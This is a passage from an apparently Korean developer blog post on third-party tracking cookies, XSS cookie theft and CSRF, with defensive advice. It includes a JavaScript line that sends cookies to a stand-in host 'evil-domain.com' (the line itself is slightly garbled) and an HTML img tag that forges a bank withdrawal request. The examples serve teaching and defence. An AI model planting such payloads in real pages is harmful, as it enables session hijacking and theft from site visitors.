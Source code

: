 ![image](https://github.com/Tolerblanc/Tolerblanc.github.io/assets/52883827/8b0d6226-2df2-4eaa-bc1d-8a088fcab68d)

- 사용자가 만약 `A.com`에 다시 접속하게 되면, `B.com`의 서버가 요청을 받으면서 함께 받은 쿠키의 `id`를 통해 특정 사용자를 인식한다.

![image](https://github.com/Tolerblanc/Tolerblanc.github.io/assets/52883827/65c15451-0cb1-4cc3-a748-9b31c42b9860)

- 이 사용자가 `A.com`을 벗어나 `C.com`으로 이동했는데, `B.com`에서 제공하는 같은 이미지 배너가 있다고 가정해보자.

![image](https://github.com/Tolerblanc/Tolerblanc.github.io/assets/52883827/0614b4df-5b18-4f08-9569-d2b0d9e45204)

- 처음에 `A.com`에서 설정된 서드파티 쿠키가 `C.com`에 접속할 때 `B.com`로 같이 보내진다. 
- `B.com`에서는 해당 서드파티 쿠키와 함께 HTTP Referer 헤더를 같이 수신하기 때문에, 해당 쿠키 값을 가지는 유저가 어떤 페이지를 방문했는지 모두 추적할 수 있게 된다.
- 이러한 원리로 광고 사이트에서 사이트 간 사용자 이동을 추적하게 된다. 이때문에 서드파티 쿠키를 추적 쿠키 라고도 한다.
- 실제로 보안상 문제가 되는 건 아니지만, 더 큰 범위에서 논의되어야 할 문제이다.
- 사파리는 애초에 서드파티 쿠키가 막혀있었고, 크롬은 23년도 부터 서드파티 쿠키 사용이 제한되었다.
- EU에서는 GDPR이라는 법령으로, 쿠키를 추적하는 경우 사용자로부터 명시적인 허가를 얻어야만 한다.
	- 따라서 해외 사이트를 들어갔을 때, 쿠키를 허용하겠냐는 팝업창이 자주 보이는 것이다.

### 쿠키 탈취와 XSS(Cross-site scripting)

- 다른 도메인의 자바스크립트를 페이지에 로드하는 기능은 편리할 수 있지만, 골치 아픈 보안 취약점을 열어줄 수 있다.
- 서드파티 자바스크립트 리소스에 대한 요청에 페이지의 쿠키가 포함되어 있지 않더라도, 스크립트는 해당 쿠키에 접근할 수 있다.
- 페이지의 모든 자바스크립트는 동일한 도메인, 동일한 경로 및 페이지 자체와 동일한 프로토콜을 사용하여 실행되는 것으로 간주된다.
- 즉, 로드된 다른 도메인의 스크립트는 `document.cookie`를 읽어 해당 페이지의 쿠키를 얻을 수 있다.
- 이게 얼마나 위험한 지 알아보기 위해, `evil-domain.com` 에서 유용한 코드가 포함된 스크립트를 특정 페이지에 로드한다고 가정해보자.
```javascript
(new Image()).src = "http://www.evil-domain.com/cookiestealer.php?cookie=" + cookie.domain;
```
- 이제 이 코드는 특정 페이지에 로드 되고, 자동으로 방문자들의 쿠키를 `evil-domain.com`으로 다시 보낸다.
- 쿠키가 있으면 세션 하이재킹을 포함한 다른 공격을 저지르는게 훨씬 쉬워진다.
- 서드파티 자바스크립트를 페이지에 삽입하여 공격하는 것을 **XSS(Cross-site scripting)공격** 이라고 한다.
- 세션 토큰 탈취 외에도, 페이지에 스크립트를 삽입하기 때문에 자바스크립트로 할 수 있는 모든 기능을 통해 공격할 수 있다. (키 로깅, 키보드 입력 탈취, 폼 입력값 탈취 등)

- 쿠키 도용은 악의적인 스크립트를 포함하는 것만으로는 발생하지 않고, 잘못된 입력 필터링으로 인해 발생할 수도 있다.
- SQL 인젝션과 비슷한 방식으로, 입력값 검증을 제대로 하지 않아서 `<script>` 태그가 포함된 문자열을 받고 그대로 실행하게 되면 쿠키가 도난당할 수 있다.
- XSS를 방지하기 위해서는 다음 주의 사항을 따른다.
1. 신뢰할 수 없는 도메인의 자바스크립트를 포함하지 않는다.
2. 모든 사용자 입력에서 HTML을 필터링한다. - SQL 인젝션을 막는 방법과 비슷
3. HTTP-Only 쿠키를 사용한다.

## CSRF(Cross-site Request Forgery)

- **CSRF(Cross-site Request Forgery) 공격**은 공격자가 로그인한 사용자를 대신하여 악의적인 작업을 수행하는 요청을 보내도록 브라우저를 설득하는 것이다.
- 위에서 설명한 XSS 기술이나 간단한 HTML을 사용하여 공격을 수행할 수 있다.
- 입력 필터링이 존재하지 않는 포럼에 누군가 게시글을 작성한다고 해보자.
	- 필터링이 존재하지 않기 때문에 사용자는 HTML을 직접 입력할 수 있게 된다.
	- 게시글 내용에 다음을 적었다고 가정해보자.
```html
<img src="http://bank.example/withdraw?account=bob&amount=1000000&for=mallory">
```
- 다른 사용자가 이 게시글을 눌렀다면, 무조건 위 링크에 요청을 보내게 된다.
	- 해당 사용자가 만약 `bank.example`에 로그인 했던 상황이면, 그대로 다른사람한테 돈을 송금하게 될 것이다.
	- 물론, 이는 입력 필터링이 없는 곳 + `bank.example` 측 서버 사이드 검증이 하나도 없어야 일어날 수 있는 특이 케이스 이지만, 사용자의 의도와는 상관 없이 요청이 날라간다는 점에 주목해야 한다.
- XSS와 마찬가지로, 입력 필터링은 CSRF 공격을 방지하는 중요한 도구이다. 그 밖에도:
1. 민감한 작업에 대해 추가적인 확인 절차가 필요함 - 위 예시 기준 `bank.example` 의 서버 사이드 검증이 추가되어야 한다.
2. 민감한 데이터가 있는 시스템에서 사용자를 확인하는 쿠키는 만료 시간이 짧아야 함
3. 쿠키 뿐만 아니라, Referer나 요청 유형(Get 대신 Post 요청이 왔는지)에 따른 유효성 검사도 수행해야 함
- CSRF 공격은 일단 시작되면 추적하기 특히 까다롭기 때문에, 예방이 중요하다.

